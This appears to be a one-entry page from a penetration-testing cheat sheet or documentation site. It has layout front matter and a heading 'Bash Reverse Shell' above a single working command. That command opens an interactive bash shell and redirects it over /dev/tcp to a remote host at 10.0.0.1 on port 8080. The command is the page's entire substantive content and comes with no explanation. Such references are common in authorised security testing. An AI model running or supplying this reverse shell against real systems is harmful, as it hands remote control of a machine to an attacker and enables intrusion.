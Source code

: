 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Bash Reverse Shell

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
